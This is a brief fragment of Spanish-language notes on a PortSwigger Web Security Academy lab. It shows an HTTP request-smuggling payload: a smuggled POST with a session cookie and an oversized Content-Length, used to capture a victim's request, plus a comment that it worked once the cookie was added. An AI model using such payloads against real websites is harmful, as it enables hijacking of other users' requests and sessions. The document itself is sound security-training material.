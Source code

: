 ![](assets/2022-08-04-12-59-16.png)

Añadimos

💥  Hasta que no puse la cookie no funcionó bien devolviendo victim-fingerprint etc

```html
0

POST / HTTP/1.1
Host: 0aec0036045071f0c01590d900d800e0.web-security-academy.net
Cookie: session=4xmI0DxlrILrZp43quF6DYPH64xnawtA; _lab_analytics=YAQi9MFKcUAbPyNlLxjyT0hHnVcs3SVWLw5NsGXoRHsHpHUruwc11pmi9aJiittAlli0g12d6XIzdlLcDrYSTLqd7QCN3f21NYXMosFpsR4XsECDfcbFfoGSZU56x7xjwhg75gSA1uz82JEpBSw1TTyxsFy6twC4Yare6xiRe1vZt55vhalcyX9fuDtjCxEsG0jDmonjeNyaMuXE4Vw57vMBprlE18qEjiWDtgI6xmngvnKmVY0QJYikGke3mOEN
Content-Length: 800

search=x
```

![](assets/2022-08-04-18-56-20.png)
